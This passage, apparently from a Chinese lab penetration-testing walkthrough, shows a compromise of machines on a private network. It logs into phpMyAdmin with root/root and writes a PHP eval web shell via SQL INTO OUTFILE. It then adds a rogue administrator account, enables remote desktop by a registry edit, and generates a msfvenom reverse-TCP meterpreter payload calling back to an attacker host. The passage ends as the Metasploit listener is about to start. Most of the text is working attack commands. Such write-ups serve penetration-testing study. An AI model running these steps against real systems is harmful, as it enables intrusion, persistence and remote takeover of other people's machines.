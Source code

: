 发现5号机开放80端口

输入://192.168.141.115/phpmyadmin/，弱口令 用户名root 密码root

![](https://upload-images.jianshu.io/upload_images/7216746-c54337230756a51e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

尝试写入webshell

![](https://upload-images.jianshu.io/upload_images/7216746-209b387b9c227d1d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

```
use mysql;
CREATE TABLE `mysql`.`d0g3` (`sn00py` TEXT NOT NULL );
INSERT INTO `mysql`.`d0g3` (`sn00py`)VALUES ('<?php @eval($_POST[c]);?>');
SELECT sn00py FROM d0g3 INTO OUTFILE 'C:/pentest/phpstudy/WWW/shell.php';
```

Shell写到了：```http://192.168.141.115/shell.php```

使用菜刀连接

![](https://upload-images.jianshu.io/upload_images/7216746-48b61f88ab4df483.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

执行命令whoami，发现是administrator权限


![image](http://upload-images.jianshu.io/upload_images/7216746-5199c69e4edc4117.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

加管理员用户

```
net user Waldo 1234567hhhh. /add
net localgroup administrators Waldo /add
```


打开5号机3389端口:

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

![](http://upload-images.jianshu.io/upload_images/7216746-cd109ed3b2cb64ec.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

连接到远程桌面

![](http://upload-images.jianshu.io/upload_images/7216746-cfa7ab7767b254ed.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

# 5号机到4号机

在5号机上传ms17010攻击脚本，用kali攻击机生成一个payload
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.141.143 lport=6666 -f exe -o shell.exe
```

开启msf监听
